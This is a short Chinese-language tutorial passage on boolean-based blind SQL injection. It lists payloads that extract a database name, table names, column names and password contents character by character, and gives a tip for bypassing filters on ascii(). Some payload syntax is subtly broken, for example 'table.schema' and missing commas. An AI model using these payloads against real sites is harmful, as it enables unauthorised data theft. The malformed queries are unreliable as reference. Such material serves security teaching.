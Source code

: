![20210409190657345](assets/20210409190657345.png)

```
3、如果程序过滤了ascii（），可以用hex()、bin（）、ord()代替，效果一样：
```

![20210409190710850](assets/20210409190710850.png)

布尔注入一般流程

```
因为盲注不能直接用database（）函数得到数据库名，所以步骤如下：

①判断数据库名的长度：and length(database())>11 回显正常；and length(database())>12 回显错误，说明数据库名是等于12个字符。

②猜测数据库名（使用ascii码来依次判断）：and (ascii(substr(database(),1,1)))>100 --+ 通过不断测试，确定ascii值，查看asciii表可以得出该字符，通过改变database（）后面第一个数字，可以往后继续猜测第二个、第三个字母…

③猜测表名：and (ascii(substr((select table_name from information_schema.tables where table.schema=database() limit 1,1)1,1)>144 --+ 往后继续猜测第二个、第三个字母…

④猜测字段名（列名）：and (ascii(substr((select column_name from information_schema.columns where table.schema=database() and table_name=’数据库表名’ limit 0,1)1,1)>105 --+ 经过猜测 ascii为 105 为i 也就是表的第一个列名 id的第一个字母;同样,通过修改 limit 0,1 获取第二个列名 修改后面1,1的获取当前列的其他字段.

⑤猜测字段内容：因为知道了列名，所以直接 select password from users 就可以获取password里面的内容，username也一样 and (ascii(substr(( select password from users limit 0,1),1,1)))=68 --+
```
